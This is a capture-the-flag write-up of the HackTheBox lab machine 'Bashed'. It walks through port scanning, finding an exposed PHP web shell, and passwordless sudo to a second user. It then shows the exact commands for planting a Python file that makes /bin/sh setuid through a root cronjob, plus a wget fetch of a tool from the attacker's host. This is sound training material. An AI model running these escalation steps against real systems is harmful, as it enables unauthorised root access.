



---
tags:
  - hack
  - linux
---
# HackTheBox: [Bashed](https://app.hackthebox.com/machines/Bashed)

> [!tip]- Summary with Spoilers
> - I discovered a hidden PHP script called `phpbash.php`, allowing me to execute commands as `www-data`.
> - I used `sudo` to escalate privileges to `scriptmanager`, who had access to the `/scripts` directory.
> - By exploiting a cronjob running as `root`, I injected a malicious Python script to gain a `root` shell.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Jun 28 12:01:48 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oA nmap_tcp t
Warning: 10.10.10.68 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.68)
Host is up (0.097s latency).
Not shown: 65386 closed tcp ports (reset), 148 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only a web server is running.

#### 80/tcp-http

```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Visiting `http://t`:



Running `feroxbuster -k -u http://t -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1` uncovered some interesting directories, including `/uploads` (with an empty index) and `/dev`, the latter with some interesting files:



## RCE

Footholds don't get much easier than this one. There's a script called `phpbash.php` in a directory that's quickly discoverable via fuzzing. And that's the whole foothold:



Conveniently, the flag belongs to another user but it's readable:

```console
$ ls -l /home/arrexel/user.txt
-r--r--r-- 1 arrexel arrexel 33 Jun 28 11:00 /home/arrexel/user.txt
```

## PE

First, I check `sudo` and notice I'm able to become the `scriptmanager` user without a password:

```console
www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home$ sudo -u scriptmanager bash
scriptmanager@bashed:/home$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Using `pspy64` I can see some interesting commands being executed as root:

```console
scriptmanager@bashed:/dev/shm$ wget 10.10.14.10/pspy64
--2024-06-28 11:30:07--  http://10.10.14.10/pspy64
Connecting to 10.10.14.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 964408 (942K) [application/octet-stream]
Saving to: 'pspy64'
pspy64              100%[===================>] 941.80K   540KB/s    in 1.7s
2024-06-28 11:30:09 (540 KB/s) - 'pspy64' saved [964408/964408]

scriptmanager@bashed:/dev/shm$ chmod +x pspy64 && ./pspy64
...
2024/06/28 11:22:01 CMD: UID=0     PID=1227   | python test.py
2024/06/28 11:22:01 CMD: UID=0     PID=1226   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
2024/06/28 11:22:01 CMD: UID=0     PID=1225   | /usr/sbin/CRON -f
```

I confirm that the `/scripts` directory is writable as the current user, and I put a malicious script there to make `/bin/sh` run as `setuid=0`:

```console
scriptmanager@bashed:/dev/shm$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -ld .
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 28 11:25 .
scriptmanager@bashed:/scripts$ echo 'import os;os.system("chmod u+s /bin/sh")' > hax.py
```

Once the cronjob runs, I'm able to run `/bin/sh` with the `-p` option so it doesn't drop the privileges:

```console
scriptmanager@bashed:/scripts$ /bin/sh -p
# id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) groups=1001(scriptmanager)
# cat /root/root.txt
1c4223...
```
